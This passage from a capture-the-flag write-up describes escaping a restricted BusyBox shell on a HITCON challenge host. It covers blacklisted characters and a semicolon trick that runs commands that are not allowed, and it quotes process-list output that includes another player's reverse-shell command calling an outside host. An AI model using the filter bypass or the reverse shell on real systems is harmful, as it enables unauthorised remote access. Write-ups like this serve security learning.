 As you can see, we seem to be in a restricted BusyBox shell with a limited set
of commands available. Also, it seems that we aren't allowed to use characters
like `/` and `-`, which is a bit frustrating. By running `printf <char>`, we
can test to see whether `<char>` is blacklisted or not.

After some testing, I found that these were blacklisted:
```
$ { } [ ] - \ / < > | " ' * ? ! @ &
```

And these were allowed:
```
; : ( ) = + # % ~
```

Also, interestingly enough, commands with more than one `.` would fail.

From this we can see that:
- We can't easily inspect parent directions because `/` and `..` are blacklisted
- We can't supply options to commands because `-` is blacklisted
- Writing files is difficult because redirection (`>`) and piping (`|`) are
  disallowed

After playing around with the shell for a few hours, I eventually found something interesting:
```
> pwd ; echo hi
> /hitcon/<my_ip>
hi
```

Wait what? I thought `echo` wasn't included in the list of allowed commands! As
it turns out, as long as we run a whitelisted command first, we can run any
command we want after the semicolon, like `echo`, `cat`, `nc`, `perl`,
`python3`, `vim`. However, the blacklist of special characters still prevents us
from doing anything meaningful.

Despite the initial excitement, I was stuck here for a long time. After a while,
I randomly decided to run `pwd ; ps` and got this:

```
> pwd ; ps
> /hitcon/<my_ip>
PID   USER     COMMAND
    1 root     {systemd} /sbin/init
    2 root     [kthreadd]
...
13497 orange   /lib/systemd/systemd --user    <-- CTF admins logged in here
13509 orange   (sd-pam)
13671 orange   {screen} SCREEN
13672 orange   /bin/bash
13732 root     sudo su
13733 root     su
13734 root     bash
14241 cb520    /lib/systemd/systemd --user
14242 cb520    (sd-pam)
24508 cb520    sshd: cb520@pts/4
24509 cb520    -bash
24524 root     sudo su -
24526 root     su -
24527 root     {bash} -su
...
16406 1128     /bin/sh -c busybox sh
16409 1128     busybox sh
16426 1128     {exe} sh index.html                             <- 🤔
16427 1128     bash -c bash -i >& /dev/tcp/p6.is/4444 0>&1     <- 🤔
16429 1128     bash -i
19281 1128     /bin/sh -c busybox sh
19288 1128     busybox sh
19864 1128     bash in12
```
